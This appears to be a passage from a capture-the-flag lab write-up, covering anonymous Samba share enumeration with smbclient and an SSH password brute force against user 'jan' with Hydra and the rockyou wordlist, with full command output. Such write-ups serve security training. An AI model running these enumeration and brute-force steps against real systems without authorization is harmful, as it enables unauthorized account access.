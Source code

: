 
Now we add to the notes:
- REST v 2.5.12
- There two users with names starting on K and J
- User J has a weak password

For now we done with this web-site.

### Samba
Let's enumerate smb:
{% highlight console %}
m0rn1ngstr@kali:~/THM/BP$ smbclient -L \\\\10.10.133.22\\
Enter WORKGROUP\m0rn1ngstr's password: [No password. Just hit ENTER]

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
m0rn1ngstr@kali:~/THM/BP$ smbclient \\\\10.10.133.22\\Anonymous
Enter WORKGROUP\m0rn1ngstr's password: [No password. Just hit ENTER]
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11091472 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

m0rn1ngstr@kali:~/THM/BP$ cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay

{% endhighlight %}

Now we have full usernames. Let's see if we can use Jan with their weak password. 

## Gaining initial shell

Let's try to bruteforce ssh for user Jan with `Hydra`

- t - run TASKS number of connects in parallel, for SSH 4 is suggested

- l - login, use only one username or a list

- P - password wordlist

{% highlight console %}
m0rn1ngstr@kali:~/THM/BP$ hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.133.22
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-15 10:29:19
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.133.22:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[STATUS] 29.33 tries/min, 88 tries in 00:03h, 14344311 to do in 8150:11h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[STATUS] 28.27 tries/min, 424 tries in 00:15h, 14343975 to do in 8457:32h, 4 active
[22][ssh] host: 10.10.133.22   login: jan   password: fakepass1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-15 10:58:00